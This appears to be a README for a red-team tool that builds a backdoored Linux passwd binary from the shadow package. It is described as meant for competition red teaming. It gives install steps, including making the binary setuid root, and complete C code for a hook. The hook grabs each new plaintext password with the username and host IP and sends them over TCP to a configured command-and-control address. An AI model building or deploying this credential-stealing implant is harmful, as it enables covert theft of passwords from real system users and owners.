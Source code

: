 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a defined C2.

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

	int writetofile (char *password){

	    /* Get UID */
	    uid_t uid = geteuid();
	    struct passwd * pw = getpwuid(uid);

	    /* Get IP Address */
	    int fd;
	    struct ifreq ifr;
	    fd = socket(AF_INET, SOCK_DGRAM, 0);

	    /* I want to get an IPv4 IP address */
	    ifr.ifr_addr.sa_family = AF_INET;

	    /* I want IP address attached to set interface */
	    strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
	    ioctl(fd, SIOCGIFADDR, &ifr);
	    close(fd);

	    /* display result */
	    char buffer[256];
	    char * ip;
	    ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
	    int j = snprintf(buffer, 256, "%s:%s:%s\n", name, password, ip);

	    /* Make Socket */
	    int sock = 0, valread;
	    struct sockaddr_in serv_addr;

	    /* Sock creation Pt 2*/
	    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
		return -1;
	    }

	    /* Socket Options */
	    serv_addr.sin_family = AF_INET;
	    serv_addr.sin_port = htons(PORT);

	    /* Timeout settings */
	    struct timeval timeout;
	    timeout.tv_sec = 3;
	    timeout.tv_usec = 0;

	    if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
		return -1;
	    }
	    if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
		// pass

	    /* set IP and set buffer */
	    }
	    if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
		return -1;
	    }
	    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
		return -1;
	    }

	    /* Send Message */
	    send(sock , buffer , strlen(buffer) , 0 ); 

	    return 0;

	}
